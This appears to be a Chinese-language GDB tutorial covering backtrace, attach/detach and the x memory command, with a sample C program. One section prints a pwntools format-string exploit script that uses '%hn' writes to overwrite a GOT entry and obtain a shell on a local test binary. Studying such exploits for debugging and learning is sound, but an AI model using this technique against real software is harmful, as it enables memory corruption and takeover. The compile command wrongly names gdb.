






# GDB


## backtrace

**回溯（backtrace）**是总结你的程序是如何到达当前状态的。它显示了每个帧的一行信息，对于多个帧，从当前正在执行的帧（帧零）开始，然后是它的调用者（帧一），再往上直到堆栈顶部。

此命令将打印堆栈中每个帧的一行信息。默认情况下，所有堆栈帧都会被打印。你可以通过输入系统中断字符（通常是 Ctrl-c）在任何时候停止回溯输出。

```
backtrace [选项]...[限定符]...[数量]
bt [选项]...[限定符]...[数量]
```


**可选的数量** 可以是以下之一：

- **n**：仅打印最内层的 n 个帧，其中 n 是一个正数。
- **-n**：仅打印最外层的 n 个帧，其中 n 是一个正数。


**选项**：

- **-full**：打印局部变量的值。可以与可选的数量结合使用，以限制显示的帧数。
- **-no-filters**：不在此回溯上运行 Python 帧过滤器。有关更多信息，请参阅帧过滤器 API。此外，使用 disable frame-filter all 可以关闭所有帧过滤器。这仅在 GDB 配置为支持 Python 时相关。
- **-hide**：Python 帧过滤器可能会决定“省略”一些帧。通常，这些省略的帧仍然会被打印，但它们相对于导致它们被省略的过滤帧缩进。-hide 选项使省略的帧完全不被打印。


**覆盖全局打印设置的选项**

backtrace 命令还支持一些选项，允许覆盖由 **set backtrace** 和 **set print** 子命令设置的相关全局打印设置：

- **-past-main [on|off]**：设置回溯是否应继续超过 **main** 函数。相关设置：**set backtrace past-main**。
- **-past-entry [on|off]**：设置回溯是否应继续超过程序的入口点。相关设置：**set backtrace past-entry**。
- **-entry-values no|only|preferred|if-needed|both|compact|default**：设置函数入口处函数参数的打印方式。相关设置：**set print entry-values**。
- **-frame-arguments all|scalars|none**：设置非标量帧参数的打印方式。相关设置：**set print frame-arguments**。
- **-raw-frame-arguments [on|off]**：设置是否以原始形式打印帧参数。相关设置：**set print raw-frame-arguments**。
- **-frame-info auto|source-line|location|source-and-location|location-and-address|short-location**：设置帧信息的打印方式。相关设置：**set print frame-info**。


**保留的限定符（为了向后兼容）**

- **full**：等同于 **-full** 选项。
- **no-filters**：等同于 **-no-filters** 选项。
- **hide**：等同于 **-hide** 选项。


backtrace 用于**打印调用栈（也称为回溯或堆栈跟踪）**，即程序在**当前暂停点之前（从函数执行开始）所经历的一系列函数调用**。

> backtrace 命令可以简写为 bt


即程序在当前暂停点之前所经历的一系列函数调用。调用栈显示了**从程序开始执行**到**目前暂停位置的所有函数调用的顺序**，这可以帮助开发者理解程序是如何到达当前状态的，并且对于调试错误非常有用。


当您使用 `bt` 命令时，GDB 会输出一个列表，每个条目代表一次函数调用，通常包括以下信息：

- **帧编号**：从0开始，表示最内层的调用（即当前正在执行的函数）。
- **函数名**：被调用的函数名称。
- **参数值**：传递给函数的参数，如果可用的话。
- **源文件和行号**：函数调用所在的源文件及行号，如果调试信息包含这些信息。
- **地址**：函数调用发生的具体内存地址。


### 栈示例

**C 程序源代码：**

**编译：gdb print.c -o print -g**

```C
#include <stdio.h>

void print_one(const char * str);
void print_two(const char * str);
void print_stats(const size_t num);

int main(void) {

    int x = 10;

    long long int y = 1000;

    print_one("hello world");
    print_two("welcome to process");

    return 0;
}

void print_one(const char * str) {

    const size_t num = printf("print one: %s\n",str);

    print_stats(num);

    return ;

}

void print_two(const char * str) {

    const size_t num = printf("print two: %s\n",str);

    print_stats(num);

    return ;

}

void print_stats(const size_t num) {

    printf("Number of characters printed: %ld\n",num);

    return ;
}
```


使用 **disassemble main** 对 **main** 函数进行反汇编。




在 **main** 和 **print_stats** 函数设置断点。

```
(gdb) break * main 
Breakpoint 1 at 0x1149: file print.c, line 7.
(gdb) break * print_stats
Breakpoint 2 at 0x1209: file print.c, line 39.
```


使用 **r** 命令开始执行程序，**触发 main 函数断点**，使用 **bt** 查看。




使用 **c** 命令继续执行程序，触发 **print_stats** 函数断点，使用 **bt -full** 查看。

这次 **print_stats 是由 print_one 函数调用**的。




使用 **c** 命令继续执行程序，**再次**触发 **print_stats** 函数断点，使用 **bt -full** 查看。

这次 **print_stats 是由 print_two 函数调用**的。




## attach 附加调试

将 gdb 附加到一个已经在运行的程序，并进行调试。


### **attach process-id**

此命令将调试器附加到一个已经在外部启动并运行的进程中（**info files** 显示你当前活动的目标）。该命令需要一个进程ID作为参数。

> 通常，可以通过 **ps** 实用程序或 **jobs -l shell** 命令来**查找 Unix 进程的进程ID**。
>
> **attach** 命令不会在你第二次按下回车键后重复执行。


要使用 **attach** ，您的程序必须在**支持进程的环境下运行**；例如， **attach 不适用于缺少操作系统的裸板目标程序**。您还必须拥有向进程发送信号的权限。


当使用 GDB 的 **attach** 命令将调试器附加到一个正在运行的进程时，GDB 会尝试**找到与该进程相关联的可执行文件**。

1. 首先会在**当前工作目录中查找**这个文件。
2. 它会**根据配置的源文件搜索路径来寻找**。
3. 如果你知道确切的文件位置，你也可以**手动使用 file 命令加载程序**。

**在某些情况下**，GDB **当前加载的可执行文件与附加的可执行文件不同**。

为了处理这种不匹配，GDB 提供了一个 **exec-file-mismatch** 设置，它定义了 **GDB 在检测到这种不一致时**的行为：

- **ask** (默认)：GDB 会警告用户，并询问是否要加载附着进程的正确可执行文件。
- **warn**：GDB 仅显示警告信息，但不会自动尝试加载新的可执行文件。
- **off**：GDB 不会检查是否存在不匹配，也不会采取任何行动。


GDB 在**附加到被调试进程**后做的**第一件事就是停止它**。你可以像**调试 run 启动的程序一样**，来**调试 attach 附加的在外部运行的程序**。你可以**插入断点**；可以**单步执行和继续**；可以**修改内存**。如果你希望进程继续运行，你可以在将 GDB 附加到进程之后使用 **continue** 命令。


### **detach**

当你完成对已附加进程的调试时，可以使用 **detach 命令将其从 GDB 控制中释放出来**。

在 **detach** 命令之后，**该进程和 GDB 将完全独立**，你可以准备附加另一个进程或使用 run 启动一个进程。

> **detach** 命令不会在你再次按下回车键后重复执行。


如果你在**有附加进程的情况下退出 GDB**，GDB 会**自动解除该进程的附加**。

如果在**没有取消附加进程，且附加进程还在运行**时**使用 run 命令**，GDB 会**结束附加的进程（发送 kill 信号）**，并重新启动这个程序。

> 如果你尝试做这两件事情中的任何一件，GDB 会要求确认；
>
> 你可以使用 set confirm 命令（参见可选警告和消息）来控制是否需要确认。


### gdb.attach 问题

在使用 python pwntools 模块时，可以通过 gdb.attach 使程序附加到 gdb 中进行调试。

```python
p = process('./test')
gdb.attach(p,gdbscript='''
    break * main + 84
    break * main + 99
    c
    x/20xw $esp
    x/20xb $esp + 24
    print system
    display /1xw 0x804c010
    ''')

puts = 0x804c010
aaaa = p32(puts)
bbbb = p32(puts + 2)

payload = b'sh;#' + aaaa + bbbb + b'%58404x%7$hn%5036x%8$hn'

p.readline()
p.sendline(payload)

input('wait')

p.interactive()
```


这是一个格式化利用的脚本，格式化的一个典型特点就是会打印大量的空格，在此例子中是 **"%58404x" 和 "%5036x"**。

当进入 gdb 交互模式后，程序处于 **break * main + 84** 断点，该断点的位置为 **printf(buff) 格式化利用点**。

如果使用 **c 命令**继续运行程序，则会调用 **printf 函数输出大量的字符内容**，但是**程序无法到达下一个利用点**。



注：虽然在 gdb 调试中无法使用 **c 命令到达下一个断点（或继续执行程序）**，但是**使用 quit 退出 gdb （取消附加到进程）**后，**程序会继续运行**，且**格式化字符串漏洞被成功利用**。


**解决这个问题的由两个方法**：

1. 减少 **printf 的输出内容**，即修改  **"%58404x" 和 "%5036x"** 为  **"%101x" 和 "%202x"**。
2. 注释 **input('wait')** 语句。


由于减少了 printf 的输出内容，则无法利用格式化字符串漏洞，这里选择注释 **input('wait')** 语句。

**注释 input('wait') 后重新执行 python 脚本。**




## x 内存调试

您可以使用 `x`（“examine”的缩写）命令以独立于程序数据类型的多种格式检查内存。


**x/nfu addr**

- **n, f, 和 u** 是可选参数，指定要显示多少内存以及如何格式化；如果对 `nfu` 使用默认值，则不需要输入斜杠 `/` 。
- **address** 是一个表达式，给出您想要开始显示内存的地址。

- **n**：重复次数
    - 重复计数是一个十进制整数，默认是 1。它指定了要显示的内存量（按单位 `u` 计算）。如果指定了负数，则从 `addr` 开始向后检查内存。
- **f**：显示格式
    - 显示格式是 `print` 使用的格式之一（`x`, `d`, `u`, `o`, `t`, `a`, `c`, `f`, `s`, `i`, `m`）。
    - 初始默认值是 `x`（十六进制）。每次您使用 `x` 或 `print` 时，这个默认值会改变。
- **u**：单位大小
    - 单位大小可以是：
        - `b`：字节。
        - `h`：半字（两个字节）。
        - `w`：字（四个字节）。这是初始默认值。
        - `g`：巨字（八个字节）。
- **addr**：开始显示地址
    - `addr` 是您希望 GDB 开始显示内存的地址。
    - 它可以是一个表达式，只要该**表达式能够计算出一个整数值**。
    - 表达式可以是简单的整数（如 `0x1234`），也可以是更复杂的表达式（如**变量、寄存器、算术运算**等）


由于表示**单位大小的字母**与**指定输出格式的字母**完全不同，因此您不必记住单位大小或格式哪个先出现；**两种顺序效果相同**。输出规范 `4xw` 和 `4wx` 表示完全相同的意思。（但是，**计数 `n` 必须首先出现**；`wx4` 不工作。）


### f 显示格式

- `o`：八进制
- `x`：十六进制
- `d`：有符号十进制整数
- `u`：无符号十进制整数
- `t`：二进制
- `f`：浮点数
- `a`：地址（以十六进制显示，并跟随符号名，如函数名或变量名）
- `c`：将字节解释为ASCII字符并显示。对于不可打印的字符，GDB会用反斜杠序列或者C风格的转义字符表示。
- `s`：字符串（直到遇到空字符 `\0`）
- `i`：将**内存的原始字节**按照**目标架构的指令集架构**解码为**机器指令（汇编代码）**并显示。
- `m`：显示内存标签。


### n 重复次数

**n 是重复次数，而不是打印的字节数**

- **单位大小 `u` 为 `b`（1字节），重复次数 `n` 为 4**，则打印 4 个字节的数据项

```
(gdb) x/4xb 0x0000555555555000
0x555555555000 <xxx>:	0xbf	0x19	0x00	0x00
```

在这个例子中，`x/4xb` 命	令告诉 GDB 从地址 `0x0000555555555000` 开始，按照字节 (`b`) 单位，连续显示 4 个字节的数据项。


- **单位大小 `u` 为 `w`（4字节），重复次数 `n` 为 4**，则打印 4 个 4 字节的数据项，即总共 16 个字节：

```
(gdb) x/4xw 0x0000555555555000
0x555555555000 <xxx>:	0x000019bf	0xfe80e800	0x8948ffff	0x20bfe045
```

在这个例子中，`x/4xw` 命令告诉 GDB 从地址 `0x0000555555555000` 开始，按照字 (`w`) 单位，连续显示 4 个 4 字节的数据项。因此，总共打印了 16 个字节。


### x/m 检查内存标签

并不是所有的架构都支持内存标签（Memory Tagging）。暂略。
